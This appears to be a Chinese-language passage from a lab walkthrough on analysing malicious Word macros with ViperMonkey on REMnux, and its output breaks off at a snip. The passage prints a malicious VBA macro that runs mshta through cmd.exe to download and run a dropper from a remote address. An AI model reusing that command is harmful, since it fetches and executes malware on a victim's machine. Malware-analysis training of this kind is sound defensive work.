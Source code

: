 **![](img/454cfa103f6ef8f22e13f44edace48d8.png)**

**表 1:`DefinitelyALegitInvoice.doc`宏行为总结。**

**`vmonkey`标识了一个名为`DefoLegit`的函数，并显示它通过`cmd.exe`执行一个命令，以从远程位置执行一个 *HTML 应用*(参见 [Cooper et al. 2003](https://patents.google.com/patent/US6662341B1/en) )有效载荷。以下是该函数的代码:**

```
' VBA CODE (with long lines collapsed):
Private Sub DefoLegit()
    Shell ("cmd /c mshta http://10.0.0.10:4444/MyDropper.exe")
End Sub
```

**`DefoLegit`通过`Shell`命令从 *HTML 应用程序*获取可执行的滴管。`vmonkey`还输出了以下内容作为妥协的候选指标:**

```
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/sType/ResourceEvent'
INFO     Found possible intermediate IOC (URL): 'http://www.w3.org/1999/02/22-rdf-syntax-ns'
INFO     Found possible intermediate IOC (URL): 'http://purl.org/dc/elements/1.1/'
INFO     Found possible intermediate IOC (URL): 'http://schemas.openxmlformats.org/drawingml/2006/main'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/mm/'
INFO     Found possible intermediate IOC (URL): 'http://10.0.0.10:4444/MyDropper.exe'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/photoshop/1.0/'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/'
```

**这一切都很有趣。我现在将重复我用来分析`DefinitelyALegitInvoice.doc`的过程，来分析另一个名为`Taxes2020.doc`的 Word 文档**

```
**remnux@thm-remnux:~/Tasks/4$ vmonkey Taxes2020.doc**
 _    ___                 __  ___            __             
| |  / (_)___  ___  _____/  |/  /___  ____  / /_____  __  __
| | / / / __ \/ _ \/ ___/ /|_/ / __ \/ __ \/ //_/ _ \/ / / /
| |/ / / /_/ /  __/ /  / /  / / /_/ / / / / ,< /  __/ /_/ / 
|___/_/ .___/\___/_/  /_/  /_/\____/_/ /_/_/|_|\___/\__, /  
     /_/                                           /____/   
vmonkey 0.08 - https://github.com/decalage2/ViperMonkey
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/ViperMonkey/issues

===============================================================================
FILE: Taxes2020.doc
INFO     Starting emulation...
INFO     Emulating an Office (VBA) file.
INFO     Reading document metadata...

[... snip ...]
```
